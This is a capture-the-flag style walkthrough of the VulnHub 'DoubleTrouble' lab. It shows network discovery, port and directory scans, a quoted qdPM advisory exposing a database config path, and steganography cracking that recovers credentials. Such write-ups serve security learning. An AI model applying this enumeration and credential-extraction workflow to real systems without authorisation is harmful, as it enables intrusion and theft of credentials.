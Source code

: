 # DoubleTrouble: 1
https://www.vulnhub.com/entry/doubletrouble-1,743/

## Discovery

### Tool used: netdiscover
<br>

```
sudo netdiscover

Currently scanning: 192.168.148.0/16   |   Screen View: Unique Hosts          
                                                                               
 32 Captured ARP Req/Rep packets, from 18 hosts.   Total size: 1924            
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 172.16.250.94   08:00:27:3a:15:61      2     120  PCS Systemtechnik GmbH
 ```

 ## Port scan

 ### Tool used: nmap
 <br>

 ```
 nmap -T4 -sV -p- dubtrub

Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-07 10:24 CDT
Nmap scan report for dubtrub (172.16.250.94)
Host is up (0.00042s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.88 seconds
```

## HTTP enumeration

### Tool used: gobuster
<br>

```
gobuster dir --url http://dubtrub --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dubtrub
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/07 10:27:31 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 304] [--> http://dubtrub/uploads/]
/images               (Status: 301) [Size: 303] [--> http://dubtrub/images/] 
/css                  (Status: 301) [Size: 300] [--> http://dubtrub/css/]    
/template             (Status: 301) [Size: 305] [--> http://dubtrub/template/]
/core                 (Status: 301) [Size: 301] [--> http://dubtrub/core/]    
/install              (Status: 301) [Size: 304] [--> http://dubtrub/install/] 
/js                   (Status: 301) [Size: 299] [--> http://dubtrub/js/]      
/sf                   (Status: 301) [Size: 299] [--> http://dubtrub/sf/]      
/secret               (Status: 301) [Size: 303] [--> http://dubtrub/secret/]  
/backups              (Status: 301) [Size: 304] [--> http://dubtrub/backups/] 
/batch                (Status: 301) [Size: 302] [--> http://dubtrub/batch/]   
/server-status        (Status: 403) [Size: 272]                               
                                                                              
===============================================================
2022/09/07 10:27:56 Finished
===============================================================
```

Browsing to the URL shows us qdPM 9.1 (a project management tool) is installed.<br><br>

![qdpm](./docs/doubletrouble/trouble_01_web.png)

Our first rabbit hole begins with the "/install" directory.<br><br>

![install1](./docs/doubletrouble/trouble_02_install01.png)

![install2](./docs/doubletrouble/trouble_03_install02.png)

A quick search of exploits shows us that we can expose some database credentials stored in a YAML (.yml) file:<br><br>

```
searchsploit -p 50176

  Exploit: qdPM 9.2 - Password Exposure (Unauthenticated)
      URL: https://www.exploit-db.com/exploits/50176
     Path: /usr/share/exploitdb/exploits/php/webapps/50176.txt
File Type: ASCII text

Copied EDB-ID #50176's path to the clipboard

cat 50176.txt 

# Exploit Title: qdPM 9.2 - DB Connection String and Password Exposure (Unauthenticated)
# Date: 03/08/2021
# Exploit Author: Leon Trappett (thepcn3rd)
# Vendor Homepage: https://qdpm.net/
# Software Link: https://sourceforge.net/projects/qdpm/files/latest/download
# Version: 9.2
# Tested on: Ubuntu 20.04 Apache2 Server running PHP 7.4

The password and connection string for the database are stored in a yml file. To access the yml file you can go to http://<website>/core/config/databases.yml file and download.
```

Indeed, if we browse to "~/core/config/databases.yml", we have a username and password:<br><br>

```yml
all:
  doctrine:
    class: sfDoctrineDatabase
    param:
      dsn: 'mysql:dbname=qdpm;host=localhost'
      profiler: false
      username: otis
      password: "<?php echo urlencode('rush') ; ?>"
      attributes:
        quote_identifier: true  
```

We are able to go back to "/install" and login using **otis/rush** and reset the admin's password, but we were unable to login.<br><br>

![config](./docs/doubletrouble/trouble_04_config.png)

![loginfail](./docs/doubletrouble/trouble_05_loginfail.png)

We should have just inspected "/secret" first, as this is where we were able to progress from. The page contains a simple image. At first, it appeared to be nothing special as *exiftool* did not reveal anything good.<br><br>

![secret](./docs/doubletrouble/trouble_06_secret.png)

```
exiftool doubletrouble.jpg 

ExifTool Version Number         : 12.42
File Name                       : doubletrouble.jpg
Directory                       : .
File Size                       : 83 kB
File Modification Date/Time     : 2022:09:07 10:30:12-05:00
File Access Date/Time           : 2022:09:07 10:30:12-05:00
File Inode Change Date/Time     : 2022:09:07 10:30:15-05:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Image Width                     : 501
Image Height                    : 450
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 501x450
Megapixels                      : 0.225
```

However, after doing a quick search online for other people's work (because sometimes you get stuck), we found that steganography might be in play. Using *stegseek* revealed just that:<br><br>

```
stegseek doubletrouble.jpg /usr/share/wordlists/rockyou.txt 

StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "92camaro"       
[i] Original filename: "creds.txt".
[i] Extracting to "doubletrouble.jpg.out".

cat doubletrouble.jpg.out 

otisrush@localhost.com
otis666
```